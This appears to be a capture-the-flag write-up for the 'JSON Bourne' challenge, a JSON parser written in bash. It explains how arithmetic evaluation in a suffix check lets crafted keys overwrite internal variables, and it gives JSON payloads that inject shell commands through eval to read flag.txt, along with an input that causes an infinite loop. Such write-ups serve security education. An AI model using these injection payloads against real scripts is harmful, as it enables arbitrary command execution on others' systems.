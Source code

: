 # JSON Bourne (misc, 200p, 46 solved) [bash script]


After looking carefully at the code and learning the bash scripting syntax, we found in parser.sh:

```
parseString() {
    local input=$1
    local i=$2
    local res=$3
    declare -Ag $res

    makeVar
    eval ${res}'[_type]=$var_name'
    makeKind "STRING" $var_name

    getString "$input" "$i" "$res"

    local task_i
    local result_str="${!res}"
    for (( task_i=0; task_i < ${#result_str}; task_i++ )); do
        if [[ "${result_str:$task_i:5}" = "task " ]]; then
            local suffix="${result_str:$((task_i+5)):$((${#result_str}-task_i-5))}"
            if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
                local color=$var_name
                normalizeNumber "$suffix" $color "var_"
                eval ${res}'[_color]=${color}'
            fi
        fi
    done
}
```
in particular this line:

```
if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
```

after fuzzying around, we noticed that allows arithmetic assignment, by attempting to use this line:

```
{"task 1=12":"as"}
```

Then we used this vulnerability to rewrite  `_var_name_i`  in such a way that some new variables used in evals would be somehow "double referenced".

We ended up in :

```
["task _var_name_i=10","var_11","task _var_name_i=10",{"task _var_name_i=13":"=SHELL","var_10":"b"},"concat",{"ta":["ta","aT","task _var_name_i=10",{"task _var_name_i=13":"};cat flag.txt;{","var_12":"b"},"l00p"]}]
```

Which, after a grooming phase by @Zom, could also be written as:

```
{"task _var_name_i=10":"};cat flag.txt;#
```

Curiously, changing the value of ` _var_name_i` could also cause the program to loop forever:
```
{"digging":["down","task _var_name_i=10",{"the":"rabbit"},"hole"]}
```
